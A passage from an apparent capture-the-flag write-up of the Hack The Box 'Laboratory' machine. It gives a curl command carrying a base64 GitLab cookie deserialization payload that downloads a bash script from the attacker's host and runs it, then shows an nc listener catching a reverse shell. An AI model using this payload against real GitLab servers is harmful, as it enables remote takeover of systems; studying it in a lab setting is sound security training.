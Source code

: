 Step 5 : Execution

Now that we have the cookie value ready we will run the `curl` command to drop us a reverse shell:

```shell
cfx:  ~/Documents/htb/laboratory
→ curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvO
kBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5
jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48P
CgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4yNDo4MDgwL3Jldi5iYXNoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkV
GOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lb
m9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ
6OkRlcHJlY2F0aW9uAAY7ClQ=--c13c402abdc9f0aabfd22f5544ab2d713e509334"
```

Make sure to start the webserver and nc listener before executing the curl command:

![shell](/assets/Laboratory/shell.png)

```shell
cfx:  ~/Documents/htb/laboratory
→ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.216.
Ncat: Connection from 10.10.10.216:57334.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=998(git) gid=998(git) groups=998(git)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
git@git:~/gitlab-rails/working$
```

## Shell as dexter

### Enumeration
